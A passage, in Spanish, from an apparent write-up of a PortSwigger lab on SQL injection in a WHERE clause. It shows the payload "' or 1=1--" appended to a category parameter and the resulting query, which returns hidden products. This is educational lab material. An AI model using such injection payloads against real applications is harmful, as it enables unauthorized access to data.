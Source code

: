 Para mostrar completamente todo en la base de datos:

```plaintext
❯ ?category=Corporate+gifts' or 1=1--
```

En la cadena de consulta:

```plaintext
❯ SELECT * FROM products WHERE category = 'Corporate gifts' or 1=1--' AND released = 1
```

Ahora, con la consulta anterior, devolverá todos los productos cuando la categoría sea `Coporate gifts` o `1=1`, dado que 1=1 siempre es verdadero, devolverá todos los artículos.

<p align="center">
     <img src="/assets/images/portswigger/sql_injection_vulnerability_where_clause_hidden_data/4.png" width="1000">
</p><br>

Y como se puede ver finalmente hemos resuelto el laboratorio:


<p align="center">
     <img src="/assets/images/portswigger/sql_injection_vulnerability_where_clause_hidden_data/5.png" width="1000">
</p><br>


¡Un saludo y espero que os sirva de apoyo!
